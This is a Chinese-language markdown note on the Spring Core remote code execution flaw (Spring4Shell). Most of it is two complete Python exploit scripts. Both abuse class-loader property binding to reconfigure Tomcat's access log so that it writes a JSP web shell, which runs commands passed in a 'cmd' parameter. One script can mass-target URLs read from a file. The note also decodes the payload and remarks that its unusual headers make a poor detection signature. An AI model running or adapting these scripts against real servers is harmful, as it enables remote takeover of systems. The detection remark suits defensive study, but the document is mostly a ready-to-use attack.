

## 原理

## payload1


	#coding:utf-8
	
	import requests
	import argparse
	from urllib.parse import urljoin
	
	def Exploit(url):
	    headers = {"suffix":"%>//",
	                "c1":"Runtime",
	                "c2":"<%",
	                "DNT":"1",
	                "Content-Type":"application/x-www-form-urlencoded"
	
	    }
	    data = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
	    try:
	
	        go = requests.post(url,headers=headers,data=data,timeout=15,allow_redirects=False, verify=False)
	        shellurl = urljoin(url, 'tomcatwar.jsp')
	        shellgo = requests.get(shellurl,timeout=15,allow_redirects=False, verify=False)
	        if shellgo.status_code == 200:
	            print(f"漏洞存在，shell地址为:{shellurl}?pwd=j&cmd=whoami")
	    except Exception as e:
	        print(e)
	        pass
	
	
	
	
	def main():
	    parser = argparse.ArgumentParser(description='Srping-Core Rce.')
	    parser.add_argument('--file',help='url file',required=False)
	    parser.add_argument('--url',help='target url',required=False)
	    args = parser.parse_args()
	    if args.url:
	        Exploit(args.url)
	    if args.file:
	        with open (args.file) as f:
	            for i in f.readlines():
	                i = i.strip()
	                Exploit(i)
	
	if __name__ == '__main__':
	    main()

攻击载荷：


将请求体url解码：

	class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=

发现请求体根据java的动态特性，%{c2} 获取 请求头中设定的值，这就代表，请求头中的奇怪的header 并不能作为通用特征！

## payload2

	# Author: @Rezn0k
	# Based off the work of p1n93r
	
	import requests
	import argparse
	from urllib.parse import urlparse
	
	
	def run_exploit(url, directory, filename):
	    headers = {
	        "prefix": "<%",
	        "suffix": "%>//",
	        # This may seem strange, but this seems to be needed to bypass some check that looks for "Runtime" in the log_pattern
	        "c": "Runtime",
	        "Content-Type": "application/x-www-form-urlencoded"
	    }
	
	    log_pattern = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20" \
	           f"java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter" \
	           f"(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B" \
	           f"%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di"
	
	    log_file_suffix = "class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp"
	    log_file_dir = f"class.module.classLoader.resources.context.parent.pipeline.first.directory={directory}"
	    log_file_prefix = f"class.module.classLoader.resources.context.parent.pipeline.first.prefix={filename}"
	    log_file_date_format = "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
	
	    data = "&".join([log_pattern, log_file_suffix, log_file_dir, log_file_prefix, log_file_date_format])
	
	    try:
	        # Run exploit
	        requests.post(url, headers=headers, data=data, timeout=15, allow_redirects=False, verify=False)
	    except Exception as e:
	        print(e)
	        pass
	
	
	def main():
	    parser = argparse.ArgumentParser(description='Spring Core RCE')
	    parser.add_argument('--url',help='target url', required=True)
	    parser.add_argument('--file', help='File to write to [no extension]', required=False, default="shell")
	    parser.add_argument('--dir', help='Directory to write to. Suggest using "webapps/[appname]" of target app',
	                        required=False, default="webapps/ROOT")
	
	    file_arg = parser.parse_args().file
	    dir_arg = parser.parse_args().dir
	    url_arg = parser.parse_args().url
	
	    filename = file_arg.replace(".jsp", "")
	
	    if url_arg is None:
	        print("Must pass an option for --url")
	        return
	
	    try:
	        run_exploit(url_arg, dir_arg, filename)
	        print("[+] Exploit completed")
	        print("[+] Check your target for a shell")
	        print("[+] File: " + filename + ".jsp")
	
	        if dir_arg:
	            location = urlparse(url_arg).scheme + "://" + urlparse(url_arg).netloc + "/" + filename + ".jsp"
	        else:
	            location = f"Unknown. Custom directory used. (try app/{filename}.jsp?cmd=id"
	        print(f"[+] Shell should be at: {location}?cmd=id")
	    except Exception as e:
	        print(e)


	if __name__ == '__main__':
    	main()

这个payload2 印证了上文的观点。

此payload是作者写的，原文在

```https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/```

## payload3

get url 注入，原理差不多，都是利用set 向属性设置值，然后影响给tomcat 日志设置格式的文件，这个文件恰好被作为wshell。

